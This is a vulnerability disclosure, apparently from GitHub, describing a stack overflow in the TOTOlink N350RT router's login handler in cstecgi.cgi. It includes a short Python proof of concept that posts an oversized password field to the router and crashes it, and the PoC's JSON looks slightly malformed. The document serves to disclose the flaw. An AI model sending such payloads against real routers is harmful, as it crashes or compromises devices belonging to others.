



# TOTOlink N350RT(V9.3.5u.6139_B20201216) router has buffer overflow vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/206/ids/36.html

**This product is on sale**: https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/206.html
## Affected Version
V9.3.5u.6139_B20201216
## Vulnerability Analysis
The following image displays the code for a stack overflow vulnerability in the `sub_421768` function of `cstecgi.cgi`, which is the handler of `loginAuth`. The value of `password` will be urldecoded then copied to `var_70` which is a local variable. Due to the lack of length validation by the developer on `password`, sending an overly long message by the attacker will eventually cause a stack overflow in the program.


## POC
```python
import requests

def poc():
    payload = """{"username":"admin","password":"password":" """
    payload += "A"*200
    payload += """","verify":"0","flag":"0","topicurl":"loginAuth"}"""
    print(payload)
    requests.post('http://192.168.5.12/cgi-bin/cstecgi.cgi', data=payload)
poc()
```
A SIGSEGV is an error(signal) caused by an invalid memory reference.
